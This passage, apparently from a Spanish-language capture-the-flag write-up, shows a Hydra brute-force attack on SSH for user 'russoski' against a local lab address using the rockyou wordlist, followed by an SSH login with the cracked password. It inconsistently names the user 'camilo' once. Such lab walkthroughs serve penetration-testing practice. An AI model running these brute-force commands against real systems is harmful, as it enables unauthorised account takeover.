 
#### Hydra
Teniendo al usuario, realiza un ataque de fuerza bruta. 
```
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64
```

<p align="center">
    <img src="../img/Pasted_image_20250101214607.png" width="500">
</p>

Encontramos la contraseña para el usuario `camilo`. Por lo que iniciamos sesión en el protocolo `SSH`.
```
ssh russoski@172.17.0.2     # después ponemos la contraseña iloveme
```

<p align="center">
    <img src="../img/Pasted_image_20250101214723.png" width="500">
</p>

Iniciamos sesión en el servicio `SSH` con el usuario `russoski`. Enumerando el sistema podemos encontrar varias carpetas y ficheros, pero nada relevante.
